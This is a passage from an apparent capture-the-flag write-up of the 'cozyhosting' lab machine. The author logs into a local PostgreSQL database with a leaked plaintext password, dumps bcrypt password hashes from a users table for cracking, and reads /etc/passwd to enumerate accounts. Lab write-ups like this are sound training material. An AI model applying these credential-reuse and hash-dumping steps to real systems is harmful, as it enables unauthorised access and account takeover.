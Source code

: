 ## Database

This previous file tells us that there is a postgreql database running locally on the server so let's try to connect using the credentials found in the file (username `postgres` and password `Vg&nvzAQ7XxR`) :

```bash
app@cozyhosting:/app$ psql -h 127.0.0.1 -p 5432 -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.
```

We're in, let's check the list of databases using `\l`:

```
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
```

Let's connect to the cozyhosting database using `\c cozyhosting` and list the tables in it using `\d` :

```
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

List what's inside of the user table using `select * from users;` :

```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

We have 2 password hashes to crack now, let's check the different users before trying to crack one of them by using `cat /etc/passwd` :

```
[...]
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
